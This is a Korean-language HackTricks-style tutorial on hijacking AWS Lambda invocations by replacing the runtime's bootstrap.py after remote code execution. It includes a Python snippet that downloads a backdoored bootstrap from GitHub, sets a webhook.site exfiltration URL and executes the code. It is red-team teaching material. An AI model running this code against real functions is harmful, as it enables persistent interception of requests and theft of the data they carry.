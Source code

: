 # AWS - Lambda 요청 훔치기

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## Lambda 흐름

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**는 컨테이너 외부의 프로세스로, **init** 프로세스에 **호출**을 **전송**합니다.
2. init 프로세스는 포트 **9001**에서 몇 가지 흥미로운 엔드포인트를 노출합니다:
* **`/2018-06-01/runtime/invocation/next`** – 다음 호출 이벤트 가져오기
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 호출에 대한 핸들러 응답 반환
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 실행 오류 반환
3. **bootstrap.py**는 init 프로세스에서 호출을 가져오는 루프를 가지고 있으며, 이를 처리하기 위해 사용자 코드를 호출합니다 (**`/next`**).
4. 마지막으로, **bootstrap.py**는 init에 **응답**을 전송합니다.

bootstrap은 사용자 코드를 모듈로 로드하므로, 사용자 코드에 의해 수행된 모든 코드 실행은 실제로 이 프로세스에서 발생합니다.

## Lambda 요청 훔치기

이 공격의 목표는 사용자의 코드가 취약한 요청을 처리하는 **`bootstrap.py`** 프로세스 내에서 악성 **`bootstrap.py`** 프로세스를 실행하도록 만드는 것입니다. 이렇게 하면 **악성 bootstrap** 프로세스가 요청을 처리하기 위해 **init 프로세스와 통신**을 시작하고, **정상** bootstrap은 **악성** 프로세스를 실행 중에 **갇히게** 되어 init 프로세스에 요청을 하지 않게 됩니다.

이것은 사용자의 코드가 정상 **`bootstrap.py`** 프로세스에 의해 실행되고 있기 때문에 간단한 작업입니다. 따라서 공격자는 다음을 수행할 수 있습니다:

* **현재 호출의 가짜 결과를 init 프로세스에 전송하여**, init이 bootstrap 프로세스가 더 많은 호출을 기다리고 있다고 생각하게 합니다.
* **`/${invoke-id}/response`**에 요청을 전송해야 합니다.
* invoke-id는 [**inspect**](https://docs.python.org/3/library/inspect.html) 파이썬 모듈을 사용하여 정상 **`bootstrap.py`** 프로세스의 스택에서 얻거나, **`/2018-06-01/runtime/invocation/next`**에 다시 요청하여 얻을 수 있습니다.
* 다음 호출을 처리할 악성 **`bootstrap.py`**를 실행합니다.
* 은폐를 위해 lambda 호출 매개변수를 공격자가 제어하는 C2로 전송한 후 요청을 평소처럼 처리할 수 있습니다.
* 이 공격을 위해서는 시스템에서 **`bootstrap.py`**의 원본 코드를 가져오거나 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)에서 가져와 악성 코드를 추가하고 현재 lambda 호출에서 실행하면 충분합니다.

### 공격 단계

1. **RCE** 취약점 찾기.
2. **악성** **bootstrap** 생성하기 (예: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **악성 bootstrap 실행하기.**

이 작업을 수행하려면 다음을 실행하면 됩니다:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
더 많은 정보는 [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)에서 확인하세요.

## 참고문헌

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
